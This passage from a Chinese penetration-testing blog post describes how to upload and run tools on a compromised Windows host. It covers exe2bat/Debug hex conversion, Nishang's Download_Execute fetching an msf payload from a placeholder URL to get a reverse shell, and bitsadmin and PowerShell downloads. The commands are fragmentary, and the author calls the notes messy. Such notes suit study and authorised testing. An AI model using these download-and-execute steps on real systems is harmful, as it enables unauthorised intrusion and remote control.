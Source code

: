 #### 3. 利用Debug上传
**原理：**将需要上传的exe文件转换为16进制hex形式，再通过echo命令将hex代码写入文件，最后利用Debug功能将hex代码编译并还原为exe文件

```bash
# exe2bat.exe 只支持<64KB的文件，方法也较古老
# kali中，exe2bat.exe位于/usr/share/windows-binaries目录下。
# 1.在该目录下执行如下命令，把需要上传的ew.exe文件转换成hex形式
wine exe2bat.exe ew.exe ew.txt        # 这里，测试ew.exe代理工具

# 2.然后把上面生成的文本内容复制，echo到目标系统的某个空文件。依次执行命令，生成1.dll, 123.hex, ew.exe
copy 1.dll ew.exe

```


#### 4. 利用Nishang上传

```bash
# nishang中的脚本：Download_Execute    --> 常用来下载文本文件并将其转为exe文件

#1. 先echo 方法把脚本内容传到目标机器，并将扩展名改为ps1

#2. 利用nishang中的exetotext.ps1脚本将msf生成的msf.exe修改为文本文件msf.txt
.\ExetoText c:\msf.exe c:\msf.txt

#3. 调用Download_Execute来下载并执行该文件
Download_Execute http://xxxxxx/msf.txt

#4. 回到msf的监听窗口，可以看到反弹的shell

```


#### 5. 利用bitsadmin下载
命令行工具(win xp之后自带的工具)， 通常同于创建下载和上传进程并检测其进展

如果渗透的目标主机使用了网站代理，并且需要活动目录证书，那么bitsadmin可以帮助解决下载文件的问题
Note：bitsadmin不支持HTTPS和FTP协议，也不支持 win xp/ server 2003及以前的版本


#### 6. 利用PowerShell下载
```bash
Download()
DownloadString()
。。。
```


>整理了一天，越整越乱，头都大了，下次理清了再来优化




---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%86%85%E7%BD%91%E7%AC%AC%E4%B8%89%E7%AB%A0-%E9%9A%90%E8%97%8F%E9%9A%A7%E9%81%93%E9%80%9A%E4%BF%A1%E6%8A%80%E6%9C%AF/  

